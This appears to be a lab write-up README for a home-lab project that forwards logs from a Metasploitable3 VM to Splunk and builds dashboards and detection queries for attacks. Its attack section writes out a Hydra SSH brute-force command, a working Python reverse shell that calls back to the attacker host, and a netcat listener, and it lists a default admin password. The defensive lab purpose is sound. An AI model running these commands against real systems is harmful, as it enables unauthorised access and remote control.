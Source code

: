 # 🛡️ Phase 2: SIEM - Dashboard Analysis

## 🎯 Objective.

- Integrate logs from the **victim machine** (Metasploitable3) into a **SIEM server** (Splunk running on the attacker/Kali VM).
- Visualize attack logs to identify patterns such as brute-force attempts and reverse shells.
- Compare the behavior and timeline of events before and after compromise.

---

## 🔧 Splunk Server Setup (Kali VM)

### Installation
```bash
wget -O splunk-9.3.2.deb https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb
sudo dpkg -i splunk-9.3.2.deb
sudo /opt/splunk/bin/splunk start --accept-license
sudo /opt/splunk/bin/splunk enable boot-start
```

### Access Web Interface
Open in browser:
```
http://192.168.142.129:8000
```
Log in with:
- **Username:** admin
- **Password:** admin123

### Enable TCP 9997 Port (to receive logs)
- Navigate to **Settings > Forwarding and Receiving > Add New (Receive Data)**
- Add TCP port **9997**
- Click **Save**

---

## 🔗 Splunk Forwarder Setup (Metasploitable3 VM)

### Installation
```bash
wget -O splunkforwarder.tgz https://download.splunk.com/products/universalforwarder/releases/9.4.1/linux/splunkforwarder-9.4.1-e3bdab203ac8-linux-amd64.tgz
tar -xvzf splunkforwarder.tgz
sudo mv splunkforwarder /opt/splunkforwarder
sudo /opt/splunkforwarder/bin/splunk start --accept-license
```

### Connect to Splunk Server
```bash
sudo /opt/splunkforwarder/bin/splunk enable boot-start
sudo /opt/splunkforwarder/bin/splunk login -auth admin:admin123
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.142.129:9997
```

### Add SSH Log Monitoring
```bash
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
sudo /opt/splunkforwarder/bin/splunk restart
```

---

## ⚔️ Attacks Performed

### 1. SSH Brute-force with Hydra
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
```

### 2. Reverse Shell via Python Script
```python
import socket,subprocess,os
s=socket.socket()
s.connect(("192.168.142.129",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

### 3. Netcat Listener on Kali
```bash
nc -lvnp 4444
```

---

## 📊 Visualization in Splunk

### Open Splunk Search:
```
http://192.168.142.129:8000/en-US/app/search/search
```

### Sample Queries:
- Failed SSH logins:
  ```spl
  index=main "Failed password"
  ```
- Successful logins:
  ```spl
  index=main "Accepted password"
  ```
- Reverse shell detection:
  ```spl
  index=main "session opened" OR "session closed"
  ```

### Bar Chart Visualization:
- Use **Visualizations > Bar Chart**
- X-Axis: `_time`, Y-Axis: `count`, Split: `event_type`

---

## 📸 Required Screenshots

- Splunk web UI showing active log forwarding from Metasploitable3
- Search results for:
  - SSH brute-force (Hydra)
  - Reverse shell events
- Visualization bar charts for the above queries
- Terminal on Kali VM showing:
  - Hydra execution
  - Netcat receiving shell
  - Python reverse shell trigger

---

## 🧠 Conclusion

- SIEM integration was completed with Metasploitable3 as victim and Splunk on Kali as server.
- Attacks were successfully simulated and visualized.
- Dashboards clearly showed timeline escalation (Hydra ➔ login ➔ shell access).
- These logs will be compared in **Phase 3** against defense mechanisms.

> Proceed to Phase 3 for defensive implementation and validation.
> 







![Screenshot17](../screenshots/Screenshot17.png)
![Screenshot18](../screenshots/Screenshot18.png)
![Screenshot19](../screenshots/Screenshot19.png)
![Screenshot20](../screenshots/Screenshot20.png)
![Screenshot21](../screenshots/Screenshot21.png)
![Screenshot22](../screenshots/Screenshot22.png)
![Screenshot23](../screenshots/Screenshot23.png)
![Screenshot24](../screenshots/Screenshot24.png)
![Screenshot25](../screenshots/Screenshot25.png)
![Screenshot26](../screenshots/Screenshot26.png)
![Screenshot27](../screenshots/Screenshot27.png)
![Screenshot28](../screenshots/Screenshot28.png)
![Screenshot29](../screenshots/Screenshot29.png)
![Screenshot30](..//screenshots/Screenshot30.png)
![Screenshot31](../screenshots/Screenshot31.png)
![Screenshot32](../screenshots/Screenshot32.png)
![Screenshot33](../screenshots/Screenshot33.png)


